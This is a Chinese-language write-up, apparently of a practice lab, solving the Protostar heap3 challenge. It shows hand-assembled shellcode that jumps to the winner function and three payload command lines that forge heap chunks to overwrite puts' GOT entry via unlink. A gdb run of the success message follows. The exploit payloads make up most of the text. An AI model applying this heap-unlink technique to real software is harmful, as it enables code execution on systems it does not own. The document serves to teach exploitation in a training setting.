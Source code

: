 在这个页面中制造shellcode:https://defuse.ca/online-x86-assembler.htm#disassembly
```asm
mov eax, 0x080484fd
jmp eax
```
结果:`"\xB8\xFD\x84\x04\x08\xFF\xE0"`

**最终3个版本的exp代码：**

第一个,shellcode在第一个参数
```
`python -c 'print "A"*16 + "\xb8\x64\x88\x04\x08\xff\xe0"'` `python -c 'print "A"*32 + "\xf8\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "B"*8 + "\x1c\xb1\x04\x08" + "\x18\xc0\x04\x08"'`
```
第二个,shellcode在第二个参数
```
a `python -c 'print "A"*8+"\xb8\x64\x88\x04\x08\xff\xe0"+"A"*17 + "\xf8\xff\xff\xff" + "\xfc\xff\xff\xff"'` `python -c 'print "B"*8 + "\x1c\xb1\x04\x08" + "\x38\xc0\x04\x08"'`
```
第三个,shellcode在第三个参数
```
a `python -c 'print "A"*8+"\xb8\x64\x88\x04\x08\xff\xe0"+"A"*17 + "\xf8\xff\xff\xff" + "\xfc\xff\xff\xff"+"B"*8 + "\x1c\xb1\x04\x08" + "\x68\xc0\x04\x08"+"\xb8\x64\x88\x04\x08\xff\xe0"'` c
```
其中
```
winner:0x8048864
puts的got:0x804b128
puts的got - 12 :0x804b11c
```
随便找一个运行一下
```bash
gdb-peda$ r a `python -c 'print "A"*8+"\xb8\x64\x88\x04\x08\xff\xe0"+"A"*17 + "\xf8\xff\xff\xff" + "\xfc\xff\xff\xff"+"B"*8 + "\x1c\xb1\x04\x08" + "\x68\xc0\x04\x08"+"\xb8\x64\x88\x04\x08\xff\xe0"'` c
Starting program: /root/sploitfun/unlink/protostar/download/heap3 a `python -c 'print "A"*8+"\xb8\x64\x88\x04\x08\xff\xe0"+"A"*17 + "\xf8\xff\xff\xff" + "\xfc\xff\xff\xff"+"B"*8 + "\x1c\xb1\x04\x08" + "\x68\xc0\x04\x08"+"\xb8\x64\x88\x04\x08\xff\xe0"'` c
that wasn't too bad now, was it? @ 1574599834
```



